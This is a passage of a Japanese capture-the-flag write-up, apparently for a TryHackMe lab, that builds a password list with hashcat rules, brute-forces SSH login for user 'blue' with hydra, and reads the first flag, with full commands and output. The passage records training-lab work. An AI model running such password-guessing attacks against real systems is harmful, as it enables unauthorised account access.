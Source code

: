 blueのもともとのパスワードをルールファイルを作って変更したということか？

攻撃マシンで同じものを作る。

```shell
$ echo 'sup3r_p@s$w0rd!' > reminder

$ hashcat --stdout reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt 

$ wc -l ./passlist.txt                                          
77 ./passlist.txt
```

```shell
$ hydra -l blue -P ./passlist.txt 10.10.238.203 ssh -t 30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-04 21:55:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 30 tasks per 1 server, overall 30 tasks, 77 login tries (l:1/p:77), ~3 tries per task
[DATA] attacking ssh://10.10.238.203:22/
[22][ssh] host: 10.10.238.203   login: blue   password: ひみつ
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-04 21:56:11
```

blueのパスワード判明。

```shell
blue@red:~$ ls -al
total 40
drwxr-xr-x 4 root blue 4096 Aug 14  2022 .
drwxr-xr-x 4 root root 4096 Aug 14  2022 ..
-rw-r--r-- 1 blue blue  166 Apr  5 00:22 .bash_history
-rw-r--r-- 1 blue blue  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 blue blue 3771 Feb 25  2020 .bashrc
drwx------ 2 blue blue 4096 Aug 13  2022 .cache
-rw-r----- 1 root blue   34 Aug 14  2022 flag1
-rw-r--r-- 1 blue blue  807 Feb 25  2020 .profile
-rw-r--r-- 1 blue blue   16 Aug 14  2022 .reminder
drwx------ 2 root blue 4096 Aug 13  2022 .ssh
blue@red:~$ cat flag1
THM{Is.................}
```

フラグ１ゲット。

## 強制切断の回避
